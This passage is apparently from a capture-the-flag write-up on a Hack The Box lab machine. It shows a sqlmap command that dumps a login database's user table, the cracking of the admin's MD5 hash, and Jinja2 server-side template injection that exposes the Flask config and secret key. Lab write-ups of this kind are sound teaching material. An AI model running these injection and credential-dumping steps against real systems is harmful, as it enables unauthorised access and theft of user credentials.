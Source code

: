 I used the below query to dump the `user` table in the `main` mysql database.

```bash
/opt/sqlmap/sqlmap.py -u http://10.129.230.231/login --data='email=&password=' -D main -T user --columns --dbms=mysql --dump

```

The dump resulted in the following users and MD5 password hashes being revealed:

```
id	name	email	password
1	admin	admin@goodgames.htb	2b22337f218b2d82dfc3b6f77e7cb8ec
2	test	test@test.com	098f6bcd4621d373cade4e832627b4f6 (test)
```

I looked up `2b22337f218b2d82dfc3b6f77e7cb8ec` on CrackStation (https://crackstation.net/) which showed me that the `admin` password was `superadministrator`. I was then able to log in to the internal administration website.

## Internal Administration Website - Flask SSTI

I noticed that most of the website had zero functionality with exception to the "My Profile" tab. Since this was a Flask website, I turned to a known vulnerability called Server-Side Template Injection (SSTI) to see if the website was vulnerable. I noticed that the "Full Name" option allowed me to input text, so I tried a simple command to test for the vulnerability:

```
{{ '7'*7 }}
```

I got the result of `7777777` in the right hand side for the `admin` user profile information, telling me that had code injection for the Jinja2 templates on the flask server.

I used the following resource to test different payloads: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2.

First I some of the Jinja2 global variables such as `config` to see what the application was using.

```python
{{ config.items() }}

dict_items([('ENV', 'production'), ('DEBUG', False), ('TESTING', False), ('PROPAGATE_EXCEPTIONS', None), ('PRESERVE_CONTEXT_ON_EXCEPTION', None), ('SECRET_KEY', 'S3cr3t_K#Key'), ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(31)), ('USE_X_SENDFILE', False), ('SERVER_NAME', None), ('APPLICATION_ROOT', '/'), ('SESSION_COOKIE_NAME', 'session'), ('SESSION_COOKIE_DOMAIN', False), ('SESSION_COOKIE_PATH', None), ('SESSION_COOKIE_HTTPONLY', True), ('SESSION_COOKIE_SECURE', False), ('SESSION_COOKIE_SAMESITE', None), ('SESSION_REFRESH_EACH_REQUEST', True), ('MAX_CONTENT_LENGTH', None), ('SEND_FILE_MAX_AGE_DEFAULT', None), ('TRAP_BAD_REQUEST_ERRORS', None), ('TRAP_HTTP_EXCEPTIONS', False), ('EXPLAIN_TEMPLATE_LOADING', False), ('PREFERRED_URL_SCHEME', 'http'), ('JSON_AS_ASCII', True), ('JSON_SORT_KEYS', True), ('JSONIFY_PRETTYPRINT_REGULAR', False), ('JSONIFY_MIMETYPE', 'application/json'), ('TEMPLATES_AUTO_RELOAD', None), ('MAX_COOKIE_SIZE', 4093), ('SQLALCHEMY_DATABASE_URI', 'sqlite:////backend/project/apps/db.sqlite3'), ('SQLALCHEMY_TRACK_MODIFICATIONS', False), ('SQLALCHEMY_BINDS', None), ('SQLALCHEMY_NATIVE_UNICODE', None), ('SQLALCHEMY_ECHO', False), ('SQLALCHEMY_RECORD_QUERIES', None), ('SQLALCHEMY_POOL_SIZE', None), ('SQLALCHEMY_POOL_TIMEOUT', None), ('SQLALCHEMY_POOL_RECYCLE', None), ('SQLALCHEMY_MAX_OVERFLOW', None), ('SQLALCHEMY_COMMIT_ON_TEARDOWN', False), ('SQLALCHEMY_ENGINE_OPTIONS', {})])
```
